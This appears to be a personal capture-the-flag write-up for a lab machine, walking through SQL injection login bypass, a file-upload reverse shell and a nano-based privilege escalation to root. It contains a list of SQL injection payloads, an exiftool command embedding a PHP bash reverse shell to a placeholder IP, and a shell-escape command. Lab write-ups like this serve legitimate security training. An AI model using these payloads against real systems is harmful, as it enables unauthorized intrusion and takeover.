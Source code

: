 ```yaml
---
sticker: emoji//1f6e4-fe0f
---
```

![](images/Pasted%20image%2020241007144603.png)
# Enumeration

```ad-info
**OPEN PORTS**:
![](images/Pasted%20image%2020241007144658.png)
**FUZZING FOR PORT 80**:
![](images/Pasted%20image%2020241007150635.png)

```

The moment I went to `/gallery`, I realized it was a login page, I tried some XSS and when I sent the request, this was the output:

![](images/Pasted%20image%2020241007150803.png)
Seems like this login page is vulnerable to [[SQL INJECTION (SQLI)|SQLI]]
So, let's try to exploit it:

For this, I am using burp's intruder with the following payload list:

```ad-summary
'
''
`
``
,
"
""
/
//
\
\\
;
' or "
-- or # 
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
' OR '' = '
'='
'LIKE'
'=0--+
 OR 1=1
' OR 'x'='x
' AND id IS NULL; --
'''''''''''''UNION SELECT '2
%00
/*…*/ 
+		
||		
%		
@variable	
@@variable	
AND 1
AND 0
AND true
AND false
1-false
1-true
1*56
-2
1' ORDER BY 1--+
1' ORDER BY 2--+
1' ORDER BY 3--+
1' ORDER BY 1,2--+
1' ORDER BY 1,2,3--+
1' GROUP BY 1,2,--+
1' GROUP BY 1,2,3--+
' GROUP BY columnnames having 1=1 --
-1' UNION SELECT 1,2,3--+
' UNION SELECT sum(columnname ) from tablename --
-1 UNION SELECT 1 INTO @,@
-1 UNION SELECT 1 INTO @,@,@
1 AND (SELECT * FROM Users) = 1	
' AND MID(VERSION(),1,1) = '5';
' and 1 in (select min(name) from sysobjects where xtype = 'U' and name > '.') --
,(select * from (select(sleep(10)))a)
%2c(select%20*%20from%20(select(sleep(10)))a)
';WAITFOR DELAY '0:0:30'--
```

Also, as seen in the request, it must be URL encoded, so, I also put this in the payload processing:

![](images/Pasted%20image%2020241007152753.png)

Let's launch the attack:
![](images/Pasted%20image%2020241007152809.png)

![](images/Pasted%20image%2020241007152818.png)
Seems like the attack worked for that payload, if we decode it, it is this payload:

`' OR 1 -- -`

And we got in as admin:

![](images/Pasted%20image%2020241007153027.png)

If we look around, we find an image upload section:

![](images/Pasted%20image%2020241007153644.png)

We can refer to our [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/FILE UPLOAD|FILE UPLOAD]] note, when we try to upload a file, we can only upload images, `.jpg, .png` so, let's use `exiftool` to embed a reverse shell between an image:

```ad-note
```php-template
exiftool -Comment="<?php echo shell_exec('/bin/bash -c \'bash -i >& /dev/tcp/YOUR_IP_ADDRESS/YOUR_PORT 0>&1\''); ?>" cat.jpg -o shell.php
```

As we can see, file is an jpeg now:

![](images/Pasted%20image%2020241007160746.png)

Let's try to upload it now:

![](images/Pasted%20image%2020241007161320.png)
![](images/Pasted%20image%2020241007161325.png)
![](images/Pasted%20image%2020241007161334.png)
And we got a shell!

Let's proceed with PRIVILEGE ESCALATION:

First, let's spawn a [[STABLE SHELL|stable shell]], once we've done this, it's time to begin with our privilege escalation:

For the privilege escalation, I used [linpeas](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS), when I looked at linpeas output, I found this:
![](images/Pasted%20image%2020241007163005.png)
seems like the password for user mike, let's su to mike:

![](images/Pasted%20image%2020241007163600.png)
Now we are in as mike, let's look at mike's privileges:

![](images/Pasted%20image%2020241007163724.png)
We found a rootkit.sh script, let's look at it:

![](images/Pasted%20image%2020241007163807.png)
As shown in the read function of the script, it uses nano, if we go to gtfobins, this is shown:
![](images/Pasted%20image%2020241007164109.png)

If we execute the script as the root user, this happens:
![](images/Pasted%20image%2020241007165053.png)

Let's enter the read option:
![](images/Pasted%20image%2020241007164217.png)
Next, enter `ctrl+r` and `ctrl+x`, then the following command:

`reset; sh 1>&0 2>&0`

![](images/Pasted%20image%2020241007165137.png)

![](images/Pasted%20image%2020241007165154.png)

And just like that, we got root access!

